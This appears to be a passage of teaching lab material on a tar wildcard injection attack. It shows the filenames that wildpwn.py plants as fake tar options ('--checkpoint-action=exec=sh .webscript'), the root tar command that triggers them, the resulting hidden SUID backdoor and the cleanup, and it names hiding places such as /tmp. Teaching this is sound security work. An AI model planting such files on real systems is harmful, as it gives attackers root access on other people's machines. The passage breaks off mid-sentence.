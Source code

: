 ```
Running `wildpwn.py` has successfully planted all the files needed for an attacker to exploit the system. These malicious files will be executed as soon as an administrator creates a `tar` archive containing them.

You should see something similar in your exploit_demo directory:

- Run `ls -alh`

drwxr-xr-x  2 sysadmin sysadmin 4096 Jun 11 19:16  ./
drwxr-xr-x 17 sysadmin sysadmin 4096 Jun 11 19:16  ../
-rw-r--r--  1 sysadmin sysadmin    0 Jun 11 19:16 '--checkpoint=1'
-rw-r--r--  1 sysadmin sysadmin    0 Jun 11 19:16 '--checkpoint-action=exec=sh .webscript'
-rw-r--r--  1 sysadmin sysadmin  535 Jun 11 19:16  .webscript
-rw-r--r--  1 sysadmin sysadmin 3699 Jun 11 19:16  wildpwn.py

- These are files whose names look like `tar` options. Normal users would never use such filenames: this is something that only hackers would do. 

What do you think the file `--checkpoint-action=exec=sh .webscript` will do when it’s interpreted as a checkpoint command?

  - When an administrator uses `tar` to create an archive containing this file, it will cause `tar` to run the program `.webscript` as a checkpoint action. Note that the period `.` before `webscript` indicates that it is a hidden file. It can only be displayed using the `-a` option with `ls`. 

- Let's archive this directory to activate the script.

- Remember, we need a user with root privileges to run the `tar` command and archive the directory which contains the malicious files.


Now, use `tar` with a wildcard to create an archive and generate the malicious files: 

- `sudo tar cf archive.tar *`

    - Note that this command is run from _inside_ the directory where `.webscript` is located. If it were run elsewhere, the backdoor would not be generated.

    - Getting this exploit to work obviously requires that the system administrator create the archive from the folder that contains `.webscript`. Common targets, i.e. good places to hide such malware are `/tmp`, users' home directories, and users' `Documents` directories, as these are often backed up.

Let's examine the directory now, after the `tar` command was run.

- Show how the directory listing has changed. The .webscript file “cleans up”, removing itself and the two malicious faux checkpoint files, in addition to creating hidden malicious files.

- It would be really helpful to look at the code of .webscript. There are many familiar commands that you should understand. Specifically, you can see the “clean up” commands.

Notice the SUID part!!!!! This is just as important as root:root ownership!!!

- Run: `ls -la`
    ```
     drwxrwxr-x 3 instructor instructor  4096 Apr 28 19:53 .
    -rw-r--r-- 1 root       root       10240 Apr 28 19:53 archive.tar
    drwxr-xr-x 2 root       root        4096 Apr 28 19:53 .cache
    -rw-rw-r-- 1 instructor instructor  3699 Apr 28 19:50 wildpwn.py
    drwxr-xr-x 5 instructor instructor  4096 Apr 28 19:49 ..
    ```

Note the following about this output:
```